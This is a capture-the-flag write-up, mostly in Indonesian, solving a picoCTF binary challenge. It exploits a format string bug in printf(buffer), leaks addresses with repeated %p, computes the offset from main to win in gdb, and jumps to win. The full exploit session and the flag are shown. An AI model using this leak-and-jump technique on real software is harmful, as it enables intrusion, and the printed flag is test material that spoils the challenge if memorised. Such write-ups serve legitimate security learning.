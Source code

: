 Author: Darkraicg492
Description
Can you try to get the flag? I'm not revealing anything anymore!!
Additional details will be available after launching your challenge instance.

Skills gained: Jumping address exploit, format string vurnerability

1. jalankan instance dan masukka nc ke terminal dan download juga file source code dan binarynya
2. ketika menjalankan nc pada terminal, terdapat input untuk memasukkan username dan sesudah itu input lompat address. Sepertinya disini kelemahannya adalah format string vurnerability
3. Buka vuln.c dengan ide atau note apapun
4. ya terdapat jelas kode vurnerability pada

	char buffer[64];
 	printf("Enter your name:");
  	fgets(buffer, 64, stdin);
  	printf(buffer);

5. Kenapa itu bisa menjadi kelemahan/vurnerability disini? karena printf(buffer) tidak melakukan print string secara eksplisit yang seharusnya untuk aman adalah "%s"
6. disini sudah jelas kelemahan dan tujuannya (kita harus lompat ke fungsi win) tapi.. gimana cara mencari address alamat main dan win nya?
7. untuk sekarang Buka binary tersebut dengan ghidra atau cutter atau objdump atau gdb untuk mengecek alamat addres addres ini
8. 
	gdb:

		(gdb) disas main

		Dump of assembler code for function main:
   		0x0000555555555400 <+0>:	endbr64
   
	   	0x0000555555555404 <+4>:	push   %rbp
	
	   	0x0000555555555405 <+5>:	mov    %rsp,%rbp

	   	0x0000555555555408 <+8>:	lea    -0x166(%rip),%rsi        # 0x5555555552a9 <segfault_handler>
	
	   	0x000055555555540f <+15>:	mov    $0xb,%edi
	
	   	0x0000555555555414 <+20>:	call   0x555555555170 <signal@plt>
	
	   	0x0000555555555419 <+25>:	mov    0x2bf0(%rip),%rax        # 0x555555558010 <stdout@@GLIBC_2.2.5>
	
	   	0x0000555555555420 <+32>:	mov    $0x0,%ecx
	
	   	0x0000555555555425 <+37>:	mov    $0x2,%edx
	
	   	0x000055555555542a <+42>:	mov    $0x0,%esi
	
	   	0x000055555555542f <+47>:	mov    %rax,%rdi
	
	   	0x0000555555555432 <+50>:	call   0x555555555180 <setvbuf@plt>
	
	   	0x0000555555555437 <+55>:	mov    $0x0,%eax
	
	   	0x000055555555543c <+60>:	call   0x5555555552c7 <call_functions>
	
	   	0x0000555555555441 <+65>:	mov    $0x0,%eax

		0x0000555555555446 <+70>:	pop    %rbp
	
	   	0x0000555555555447 <+71>:	ret

10. alamat untuk main adalah 400, sekarang bagian alamat win nya
	
 	gdb:
	
	 	(gdb) disas win
		Dump of assembler code for function win:
	   		0x000055555555536a <+0>:	endbr64
	   		0x000055555555536e <+4>:	push   %rbp
	   		0x000055555555536f <+5>:	mov    %rsp,%rbp
	   		0x0000555555555372 <+8>:	sub    $0x10,%rsp
	   		0x0000555555555376 <+12>:	lea    0xcf6(%rip),%rdi        # 0x555555556073
	   		...
	   		...

12. oke, alamat untuk win adalah 36a. Alamat win dan mainnya sudah ketemu tapi.. sekarang gimana cara kita melompatinya? untuk melompati ini membutuhkan offset dari pengurangan alamat main dengan alamat win
13. dengan cara
	python3 -c "print(hex(0x0000555555555400 - 0x000055555555536a))"
	hasilnya: 0x96

14. et tapi.. kita harus memastikan dulu apakah alamat win atau main dari nc picoctf ini sama atau beda?, kita bisa memastikan dengan cara mengisi %p sebanyak lebih dari 20 kali (%p ini adalah format hexadecimal memory address)
	hasilnya:
	Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
	0x5d94123332a1.(nil).0x5d94123332dd.0x7ffd34a32430.0x7c.0x7ffd34b20228.0x7ec4492206a0.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e.0x5d940be581c0.0x307e03c48e7fa100.0x7ffd34a32490.0x5d940be58441.(nil).
 	enter the address to jump to, ex => 0x12345: ^C

13. dan ternyata hasil dari main yang dipanggil dalam nc itu adalah 441 dan bukan 400, sekarang kita mengurangi 441 - 36a
	python3 -c "print(hex(0x441 - 0x36a))"             
	hasilnya: 0xd7

14. sesudah itu kita kurangi 441 dengan 0xd7 yang dari nc itu 
	contoh dariku:
	python3 -c "print(hex(0x5e0ab77a2441 - 0xd7))"
	hasilnya: 0x5e0ab77a236a

15. dan hasilnya seperti ini:
	nc rescued-float.picoctf.net 54031
	Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
	0x5e0abd1102a1.(nil).0x5e0abd1102dd.0x7ffc19153af0.0x7c.0x7ffc1915e228.0x753d1ff9f6a0.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e.0x5e0ab77a21c0.0xa73378bb7a919100.0x7ffc19153b50.0x5e0ab77a2441.(nil).
 	enter the address to jump to, ex => 0x12345: 
	0x5e0ab77a236a
	You won!
	picoCTF{p13_5h0u1dn'7_134k_1ef23143}
	
flag: picoCTF{p13_5h0u1dn'7_134k_1ef23143}
